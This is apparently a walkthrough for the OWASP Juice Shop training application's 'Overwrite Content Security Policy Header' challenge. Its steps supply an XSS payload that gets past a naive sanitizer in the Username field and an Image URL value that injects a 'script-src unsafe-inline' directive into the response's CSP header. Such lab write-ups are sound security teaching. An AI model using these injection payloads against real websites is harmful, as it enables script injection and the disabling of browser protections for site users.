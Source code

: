 # Overwrite Content Security Policy Header

1. Navigate to [https://localhost:88](http://localhost:88) or [https://demo.owasp-juice.shop].

1. Log in with an account.

1. A forced directory search or other scan finds the /profile subdirectory. Manually navigate to it.

1. Enter this following value in _Username_:
    ```
    <script>alert(`xss)</script>`
    ```
    This is sanitized, but the sanitizer is naive.

1. Enter the following in _Username_:
    ```
    <<a|ascript>alert(`xss)</script>`
    ```

1. Set the _Image URL_ field to https://placekitten/300/300.

1. Note that the Content-Security-Header on the response page contains an entry like:
    ```
    /assets/public/images/uploads/22.jpg; script-src 'self' 'unsafe-eval' https://code.getmdl.io http://ajax.googleapis.com
    ```
1. Submit http://not.an.image/image.png in the _Image URL_ and view the response:
    ```
    http://not.an.image/image.png; script-src 'self' 'unsafe-eval' https://code.getmdl.io http://ajax.googleapis.com
    ```
1. Now submit the following text for the _Image URL_:
    ```
    http://not.an.image/image.png script-src 'unsafe-inline' 'self' 'unsafe-eval' https://code.getmdl.io http://ajax.googleapis.com
    ```